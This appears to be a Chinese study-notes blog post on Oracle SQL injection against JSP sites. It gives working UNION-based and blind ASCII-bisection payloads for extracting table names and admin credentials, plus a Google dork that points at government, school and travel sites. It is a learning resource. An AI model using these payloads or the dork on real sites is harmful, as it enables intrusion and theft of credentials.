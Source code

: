 ```yaml
---
layout:     post
title:      Web笔记（四）SQL注入之Oracle
subtitle:   这个系列是整理学习安全的笔记，包括Web和PWN的一些知识。本章是Oracle的SQL注入。
date:       2020-11-29
author:     HouKC
header-img: img/post-bg-rwd.jpg
catalog:    true
tags:
    - CTF
    - web
    - 网络安全
    - 学习笔记
    - SQL注入
    - Oracle
---
```




##  0x00 Oracle简介

oracle数据库系统时美国ORACLE公司（甲骨文）提供的以分布式数据库为核心的一组软件产品，是目前世界上使用最广泛的数据库管理系统。基于“客户端/服务器”模式结构，客户端应用程序与用户交互，接收用户信息，并向服务器发送请求，服务器系统负责管理数据信息和各种操作数据的活动。



## 0x01 Oracle特点

- 支持多用户、大事务量的处理

- 数据安全性和完整性的有效控制

- 支持分布式数据处理

- 移植性强



## 0x02 Oracle常用场景

可能存在oracle注入的有：

- 物流

- 旅游

- 政府

- 学校

一般是jsp+oracle，可以用谷歌语法查找：`inurl:jsp?id= 旅游`

为了强化记忆是jsp文件，跟php作对比我在后面都用`jsp?id=1`示例。

## 0x03 SQL注入攻击

#### 1. 判断注入

```
jsp?id=1 and 1=1 -- 
jsp?id=1 and 1=2 -- 
```

#### 2. 判断oracle数据库

```
jsp?id=1 and exists(select * from dual) -- 
jsp?id=1 and exists(select * from user_tables) -- 
```

#### 3. 判断列数

```
jsp?id=1 order by 11 --  	返回正常
jsp?id=1 order by 12 -- 	返回错误
```

说明有11列。

#### 4. 获取数据类型不匹配的列

```
jsp?id=-1 union select null,null,null,null,null,null,null,null,null,null,null from dual
```

逐个代替为数字1或者字符'1'，来确定是数值还是字符类型，然后在字符类型的地方插入查询语句。

#### 5. 获取基本信息

```
# 获取数据库版本
(select banner from sys.v_$version where rownum=1)

# 获取操作系统版本
(select member from v$logfile where rownum=1)

# 获取连接数据库的当前用户
(select SYS_CONTEXT ('USERENV', 'CURRENT_USER') from dual)

# 获取数据库
(select owner from all_tables where rownum=1)

# 例如获取数据库版本信息：
jsp?id=100 union select null,(select banner from sys.v_$version where rownum=1),null,null,null,null,null,null,null,null,null from dual

# 例如获取第一张表
jsp?id=100 union select null,(select table_name from user_tables where rownum=1),null,null,null,null,null,null,null,null,null from dual

# 例如获取第二张表
jsp?id=100 union select null,(select table_name from user_tables where rownum=1 and table_name<>'ACCESS'),null,null,null,null,null,null,null,null,null from dual
以此类推
```

另一种注入方式判断数据库中的表：

```
jsp?id=1 and (select count(*) from admin)<>0
```

- 如果返回正常，说明存在admin表。

- 如果返回错误，可将admin改成username、manager等常用表名继续猜解，也即跑表名字典。

#### 6. 判断该网站下有几个管理员

如果有多个的话可以加大成功入侵的几率。

```
jsp?id=1 and (select count(*) from admin)=1
```

返回正常，说明只有一个管理员

#### 7. 指定表名获取列名

```
jsp?id=1 and (select count(name) from admin)>=0
```

返回正常，说明存在name字段

#### 8. 采用ascii码折半法猜解管理员账号密码

- 判断管理员名字长度

```
jsp?id=1 and(select count(*) from admin where length(name)>=5)=1
```

其中length()函数用于求字符串的长度，此处猜测用户名的长度和5比较，即猜测是否由5个字符组成

- 判断名字中各个位置的字符

```
jsp?id=1 and (select count(*) from admin where ascii(substr(name,1,1))>=97)=1
```

其中substr()函数用于截取字符串，ascii()函数用于获取字符的ascii码。